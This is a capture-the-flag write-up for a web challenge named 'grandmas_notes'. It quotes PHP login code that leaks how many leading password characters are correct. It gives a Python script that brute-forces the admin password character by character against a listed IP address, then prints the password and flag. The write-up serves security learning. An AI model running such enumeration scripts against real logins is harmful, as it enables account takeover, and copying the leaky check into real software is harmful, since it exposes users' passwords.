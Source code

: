 # grandmas_notes

```
@gehaxelt

My grandma is into vibe coding and has developed this web application to help her remember all the important information. It would work be great, if she wouldn't keep forgetting her password, but she's found a solution for that, too.
http://52.59.124.14:5015 
```

A web application is provided in the attachment. The login logic tells us the number of correct characters:

```php
$correct = 0;
$limit = min(count($chars), count($stored));
for ($i = 0; $i < $limit; $i++) {
    $enteredCharHash = sha256_hex($chars[$i]);
    if (hash_equals($stored[$i]['char_hash'], $enteredCharHash)) {
        $correct++;
    } else {
        break;
    }
}
$_SESSION['flash'] = "Invalid password, but you got {$correct} characters correct!";
```

So we just enumerate each password character to find the correct password:

```python
import requests

password = ""
for i in range(20):
    password += " "
    for ch in "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789":
        password = password[:-1] + ch
        print(password)
        r = requests.post(
            "http://52.59.124.14:5015/login.php",
            data={"username": "admin", "password": password},
        )
        if "characters correct!" in r.text:
            parts = r.text.split(" ")
            count = int(parts[parts.index("characters") - 1])
            if count == len(password):
                break
        else:
            print(password, r.text)
            exit(0)
```

The correct password for `admin` is `YzUnh2ruQix9mBWv`.

Get flag: `ENO{V1b3_C0D1nG_Gr4nDmA_Bu1ld5_InS3cUr3_4PP5!!}`.
